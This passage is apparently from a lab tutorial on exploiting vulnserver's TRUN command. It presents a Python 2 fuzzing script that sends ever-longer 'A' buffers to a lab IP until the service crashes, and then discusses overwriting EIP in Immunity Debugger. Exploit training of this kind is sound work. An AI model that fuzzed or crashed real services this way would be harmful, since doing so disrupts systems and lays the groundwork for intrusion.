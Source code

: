 
Fuzzing is just like spiking, but now that we know that this server is vulnerable to `TRUN` and not `STATS` we will use this python2 script for it :

```python
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

The purpose of this script is so far there is connection to our target which is specified with the `ip` and `port` , it will keep sending buffer, we are trying to narrow down where things are breaking and it byte size

- Save your script with `.py` and make sure you have immunity debugger and vulnserver ready
- Also make sure you click the `run` button first on immunity debugger before moving on

![](https://i.imgur.com/80EQ0QI.png)

- Now run your script and notice what is going on

![](https://i.imgur.com/rRMMTot.gif)

- As you can see the `A * 100` in our script took effect and the payload `TRUN /.:/` was also there, What we are trying to do here is to manipulate the **EIP**